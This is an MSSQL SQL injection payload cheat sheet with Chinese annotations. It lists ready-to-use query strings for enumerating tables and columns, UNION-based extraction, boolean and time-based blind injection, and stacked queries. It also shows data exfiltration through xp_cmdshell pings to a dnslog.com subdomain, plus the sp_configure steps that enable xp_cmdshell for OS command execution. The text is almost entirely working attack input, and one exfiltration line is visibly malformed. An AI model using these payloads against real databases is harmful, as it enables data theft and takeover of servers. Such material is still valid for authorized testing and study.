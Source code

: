 ```mssql
?id=1' and 1<(select top 1 table_name from information_schema.tables)-- 
?id=1' and 1<(select top 1 table_name from information_schema.tables where table_name not in (select top 1 table_name from information_schema.tables))

//获取某个表的字段数量
#payload
?id=1' and 1<(select count(column_name) FROM information_schema.columns where table_name = 'users') --




//获取字段的名称
#payload
?id=1' and 1<(select top 1 column_name FROM information_schema.columns where table_name = 'users') --          
id=1' and 1<(select top 1 column_name FROM information_schema.columns where table_name = 'users' and column_name not in (select top 1 column_name FROM information_schema.columns where table_name = 'users' )) --  

//union select 查询(注：要求前后所有的数据类型一致)
#payload
?id=1' union select 1,2,3,4--
?id=-1' union select null,null,null--
?id=-1' union select 1,(select db_name()),3-- 
?id=-1' union select 1,(select top 1 name from master.dbo.sysdatabases),2--
?id=-1' union select 1,(select top 1 name from master.dbo.sysdatabases where name not in (select top 1 name from master.dbo.sysdatabases)),2--
?id=-1' union select 1,count(table_name),3 from information_schema.tables--
?id=-1' union select 1,count(column_name),3 from information_schema.columns--         
              
//布尔盲注 注：数值类型同样使用cast(id as nvarchar(4000))
#payload
?id=1' and ascii(substring(str,1,1))=1--              
?id=1' and ascii(substring(cast(num as nvarchar(40000)),1,1))=1--   

//时间延迟盲注  waitfor delay "00:00:03"延迟3秒
#payload
if(1<2) waitfor delay '0:0:3' --
if(select count(name) from master.dbo.sysdatabases )--
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';

//多语句+exec 
#payload
数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec("master..xp_cmdshell\"ping " %2b")

?id=3; declare @a varchar(1024);set @a=user_name();exec('xp_cmdshell''ping ' %2b @a %2b '.dnslog.com''')--

命令执行 --os-shell
mssql可以执行多语句，可以通过闭合原有语句加;执行其他语句
#payload
select * from users where id = '1'; exec master..xp_cmdshell 'command' --
#command为系统命令
#xp_cmdshell有开关

打开方式
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

```